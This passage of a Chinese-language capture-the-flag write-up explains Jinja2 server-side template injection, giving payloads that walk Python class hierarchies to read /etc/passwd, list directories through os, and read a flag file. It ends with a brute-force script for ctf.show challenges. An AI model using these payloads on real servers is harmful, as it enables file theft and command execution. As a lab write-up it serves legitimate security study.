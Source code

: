 可能用到的魔术方法列举一下

```
__class__  返回类型所属的对象
__mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__base__   返回该对象所继承的基类  // __base__和__mro__都是用来寻找基类的

__subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
__init__  类的初始化方法
__globals__  对包含函数全局变量的字典的引用
```

#### 3.寻找可用引用

```
{{''.__class__.__mro__[2].__subclasses__()}}
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20221216150002-432c4b24-7d0f-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221216150002-432c4b24-7d0f-1.png)

可以看到在40的位置有一个type file类型（可以进行文件读取）

```
{{ [].__class__.__base__.__subclasses__()[40]('/etc/passwd').read() }}
```

可以看到7有一个<class ‘site._Printer’>类型（可以进行命令执行）

```
{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].listdir('.')}}
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20221216150002-4369e3f8-7d0f-1.png)
](https://xzfile.aliyuncs.com/media/upload/picture/20221216150002-4369e3f8-7d0f-1.png)

#### 4.读取flag

```
{{''.__class__.__mro__[2].__subclasses__()[40]('fl4g').read()}}
```

```
ctf{f22b6844-5169-4054-b2a0-d95b9361cb57}
```

### ctfshow web361

题目说名字就是考点

所以传参为`?name=`

传入?name={undefinde{1+1}}回显2

这里利用`os._warp_close`类，一看有不少，写个脚本来找吧

```
import requests
from tqdm import tqdm

for i in tqdm(range(233)):
    url = 'http://3b571901-c1e3-41a6-96b3-605942386ec5.challenge.ctf.show/?name={{%22%22.__class__.__bases__[0].__subclasses__()['+str(i)+']}}'
    r = requests.get(url=url).text
    if('os._wrap_close' in r):
        print(i)
```
